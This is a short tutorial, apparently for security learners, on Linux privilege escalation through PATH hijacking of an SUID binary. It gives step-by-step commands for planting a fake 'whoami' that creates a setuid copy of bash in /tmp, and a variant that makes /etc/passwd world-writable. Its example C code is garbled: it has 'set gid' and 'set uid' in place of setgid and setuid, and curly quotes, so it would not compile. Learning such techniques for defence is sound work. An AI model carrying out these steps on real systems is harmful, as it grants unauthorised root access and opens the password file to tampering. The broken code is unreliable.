 Privilege Escalation through Path Hijacking occurs when an attacker is able to place a malicious executable with the same name as a trusted program earlier in the PATH order, 
they can trick the system into running the malicious executable instead of the legitimate one.

**Note:** These techniques rely on the SUID bit being set on the binary and require execution with elevated privileges.

**If there's a binary which contains the following code: **
```
int main (void) {
 set gid(0);
 set uid(0);
 system(“whoami”);
}
```
This binary, without the SUID bit set, will run as the user executing it. 
For example, if the binary is run as root, the output of the whoami command will show "root". 
However, if the SUID bit is set on the binary, it will always run as root, regardless of the user running it.

**Use the strings command to check the contents of a binary for any known commands that may be useful: **
```
strings user_hello
```
In the output, we need to look for any familiar command. 
For example, In the output of this command we will find, system setuid setgid and whoami commands

**The $PATH environment variable contains a list of directories that the system searches when trying to locate executable files. **
```
echo $PATH
```
For example, in the output 
```/home/user1/.local/bin:/home/user1/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin```
It means that it will search for the binary first in “/home/user1/.local/bin”, then “/home/user1/bin” and so on.

**Find a directory where you have write permissions, such as: **
```cd /home/user1/.local/bin```

**Create a custom binary named whoami in this directory: **
```
vim whoami

#!/bin/bash
cp /usr/bin/bash /tmp/bash 
chmod 4777 /tmp/bash
```
**Make it executable: **
```chmod +x whoami```

**When executing user_hello, it follows the $PATH order and runs this custom 'whoami' first. **
```
./user_hello

ls -lh /tmp/
cd /tmp/
./bash -p
id
sudo su - 
```

**If the $PATH variable does not include a writable directory, or if the writable directory appears last in the list, you can modify the $PATH to prioritize a directory you control.**
```
export PATH=/tmp:$PATH
echo $PATH
```
Now, /tmp is the first directory searched when executing commands.

**Navigate to /tmp and create a script named whoami: **
```
vim whoami
```
**Add the following content to the script: **
```
#!/bin/bash
chmod 777 /etc/passwd
```
**Save the file and make it executable: **
ls -lh /tmp/whoami
```
chmod +x whoami
```
**Finally, run the binary: **
./user_hello
